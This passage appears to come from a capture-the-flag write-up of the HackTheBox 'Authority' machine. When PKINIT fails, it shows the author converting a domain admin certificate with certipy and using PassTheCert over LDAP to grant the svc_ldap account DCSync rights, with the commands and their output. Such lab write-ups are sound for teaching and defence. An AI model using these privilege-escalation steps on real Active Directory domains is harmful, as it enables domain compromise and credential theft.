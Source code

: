 ![image-20.png](/assets/img/Authority/image-20.png)

However, this produces a strange error - `KDC_ERR_PADATA_TYPE_NOSUPP`.


### PassTheCert - authenticating to LDAP instead of PKINIT
Attempting `PKINIT` with `Rubeus` produces the same error. It seems we can't request a `TGT` with this certificate (`.pfx`). Googling the error we find [this](https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html){:target="_blank"} lovely article. 

It transpires this error is because "sometimes, Domain Controllers do not support `PKINIT`. This can occur because the Kerberos certificate \(which is used for PKINIT\) is expired \(expires after one year) or because their certificates do not have the `Smart Card Logon EKU`. Extended Key Usage (EKUs) are attributes on a certificate that define how a certificate can be used (e.g. client authentication, smart card logon, etc). This makes sense as we verify the EKU is not present when we enumerated with `certipy`: 

```shell
Extended Key Usage                  : Encrypting File System
                                      Secure Email
                                      Client Authentication
                                      Document Signing
                                      IP security IKE intermediate
                                      IP security use
                                      KDC Authentication
```
Therefore, we can't get a `TGT` from the certificate, as `PKINIT` is impossible. However, the article suggests we can get around this by using using `Schannel` authentication from a certificate which authenticates to LDAP in a technique dubbed `PassTheCert`. If we can authenticate to `LDAP` using our domain admin certificate, we can do simply give our existing user `svc_ldap` `DCSync` rights (replication privileges) over the domain. 

The tool [PassTheCert](https://github.com/AlmondOffSec/PassTheCert/){:target="_blank"} allows authenticating against an LDAP/S server to perform different attack actions. Makes sense for our account to be called `svc_ldap`! We can simply convert our certificate to work with the tool, then do pass-the-cert to give `svc_ldap` replication privileges!

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ certipy cert -pfx administrator_authority.pfx -nokey -out user.crt 
Certipy v4.3.0 - by Oliver Lyak (ly4k)
[*] Writing certificate and  to 'user.crt'

┌──(kali㉿kali)-[~/Desktop]
└─$ certipy cert -pfx administrator_authority.pfx -nocert -out user.key
Certipy v4.3.0 - by Oliver Lyak (ly4k)
[*] Writing private key to 'user.key'

┌──(kali㉿kali)-[~/Desktop]
└─$ python3 passthecert.py -action modify_user -crt user.crt -key user.key -domain authority.htb -dc-ip 10.129.235.244 -target svc_ldap -elevate 
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Granted user 'svc_ldap' DCSYNC rights!
```
